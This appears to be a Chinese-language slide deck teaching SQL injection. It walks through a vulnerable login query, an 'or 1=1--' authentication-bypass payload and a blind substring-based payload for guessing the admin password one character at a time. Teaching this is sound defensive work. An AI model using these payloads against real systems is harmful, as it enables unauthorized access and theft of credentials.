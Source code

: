 
# SQL Injection

---

## 這啥

--

一種故意塞奇怪的內容讓別人的程式講錯話的手法

--

✋🌰

---

有聽過**棒球隊棒球隊**這個相聲橋段嘛

---

- 誰在一壘
- 什麼在二壘
- 三壘我不知道

---

當某些常用有特殊意義的字詞

混進句子裡的時候會造成的誤解

---

尤其是當你直接把別人給的資料

無條件加進 SQL query 的時候

--

好比說你要登入

你輸入了 帳號: admin 密碼: meow

假設拼出來的 SQL 指令長這樣

```sql
SELECT * from Users
  where user = 'admin' and password = md5('meow');
```

---

密碼不對啥都沒有

```text
 +----------+--------------------------------------+
 | user     | password                             |
 +----------+--------------------------------------+
 +----------+--------------------------------------+
```

--

字串是用單引號包的呢

那在參數裡加個 `'` 好了

帳號: `admin'` 密碼: meow

```sql
SELECT * from Users
  where user = 'admin'' and password = md5('meow');
```

---

上色爆炸啦

這行拿去跑會噴錯誤

> ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'meow')' at line 1

--

那如果說我們故意把他湊成有意義的呢

---

帳號: `admin' or 1=1--'` 密碼: meow

```sql
SELECT * from Users
  where user = 'admin' or 1=1--' and password = md5('meow');
```

---

OOPS

```text
 +----------+--------------------------------------+
 | user     | password                             |
 +----------+--------------------------------------+
 | admin    | 5f4dcc3b5aa765d61d8327deb882cf99     |
 +----------+--------------------------------------+
```

---

這是最基本的邏輯注入

讓他選出 admin 的資料

--

或者偷看某個東西對不對

其實 sql 指令的結果可以當成別的東西的參數

---

帳號: `admin' or substring((select password from Users where user = 'admin' limit 1),1,1)='a'--'`

密碼: meow

```sql
SELECT * from Users
  where user = 'admin' or substring((select password from Users where user = 'admin' limit 1),1,1)='a'--' and password = md5('meow');
```

---

如果過了

代表 `admin` 的 `password` 那一欄第一個字元是 `a` 或 `A`

